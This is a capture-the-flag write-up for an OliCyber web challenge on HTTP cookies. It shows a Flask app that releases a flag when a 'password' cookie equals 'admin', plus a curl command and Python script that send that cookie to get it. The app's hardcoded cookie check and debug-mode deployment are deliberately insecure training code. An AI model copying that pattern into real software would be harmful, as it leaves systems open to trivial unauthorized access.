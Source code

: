# URL
https://training.olicyber.it/challenges#challenge-344
# Concept
* HTTP cookies
# Method of solve
* the code that is used to deploy the app is as follows:
```
import json
from os import environ
from textwrap import dedent
from http import HTTPStatus
from flask import Flask, request, Response


app = Flask(__name__)


@app.route("/flag")
def flag():
    if request.cookies.get("password") == "admin":
        return Response(environ["FLAG"], mimetype="text/plain", status=HTTPStatus.OK)
    else:
        return Response("Bad password cookie. Unauthorized", mimetype="text/plain", status=HTTPStatus.UNAUTHORIZED)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True)
```
* according to the code, if there is a `password` cookie in the GET request with the value `admin`, then the flag is returned in the response
## Curl
* this curl command will complete the challenge:
```
curl -b "password=admin" -v http://web-05.challs.olicyber.it/flag
```
## Python
```
import requests

URL = 'http://web-05.challs.olicyber.it/flag'

my_cookies = {'password': 'admin'}

get_req = requests.get(URL, cookies=my_cookies)
req_text = get_req.text
print(req_text)
```
